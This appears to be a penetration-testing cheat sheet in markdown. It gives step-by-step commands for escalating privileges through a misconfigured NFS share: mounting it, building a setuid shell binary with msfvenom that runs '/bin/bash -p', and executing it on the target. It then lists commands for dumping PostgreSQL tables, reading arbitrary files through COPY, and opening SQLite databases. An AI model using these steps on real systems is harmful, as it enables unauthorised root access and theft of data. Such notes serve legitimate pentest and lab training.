 ## Permissions modification in NFS
- Mount the NFS share:
```bash
mkdir /tmp/mounted_share
sudo mount -t nfs <ip>:<share_name> /tmp/mounted_share/ -nolock
```
- Prepare the shell:
```bash
sudo msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/mounted_share/shell.elf
```
- Add permissions:
```bash
sudo chmod +xs /tmp/mounted_share/shell.elf
```
- Run bash from the low privileged user on the target machine:
```bash
./shell.elf
```




### Extracting database information
#### PostgreSQL
-> psql terminal as postgres user
```
su postgres
psql
```
-> list the databases
```
\list
``` 

-> select the database
```
\c <database>
```

-> list the tables
```
\d
```

-> dump
```
select * from <table>;
```

-> read files
```
CREATE TABLE demo(t text);
COPY demo from '<filename>';
SELECT * FROM demo;
```

#### SQLite
-> access database
```
sqlite3 <database.db>
```
